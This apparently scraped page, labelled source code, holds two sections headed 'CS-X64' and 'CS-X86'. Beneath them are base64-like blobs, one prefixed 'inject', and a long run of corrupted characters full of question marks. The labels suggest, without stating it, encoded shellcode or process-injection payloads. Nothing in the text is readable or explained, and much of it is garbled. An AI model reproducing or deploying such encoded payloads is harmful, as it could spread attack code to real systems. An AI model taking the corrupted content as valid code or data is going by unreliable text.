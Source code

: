 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



wefik3?4|?2,?F;6,????%;???10?,?x?;14,????g??;1???8,N;2??2,7??;26,???y;????30,X???;?34?,G????;?38????,o;????42,4;????46,x;??50,o;??54,?C????;58,?X;6????2,b;???66,w;????7????0?,??h;74????,k?;78????,???@;???82,??k;86,?S?;9??0,m????;94,f?;98,H?;???102?,Y;1??06,??E;110?,z;11?4,?r;11??8?,p??;122?,???v;??1?26,b;???130,V????;?134?,Z;|h???A???rFC????0h%6???mlx9Y??Y?gxy??CNzU?2?7??0LAyv?hIXxD????nGCLM?o?Vn??B?4rN??L???xN????Bq????oyU2C?T9????l?X1????05bgD??vwD?ZehV????nDk5????w0@????wlv??kzUYS??09zm???nx0f3????l??jHzL??NY????VmA??E??vg??Hzhz????m??r????BVwpP???fBv9?I?T????b????xErVC????L3Z?=qyukyh

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
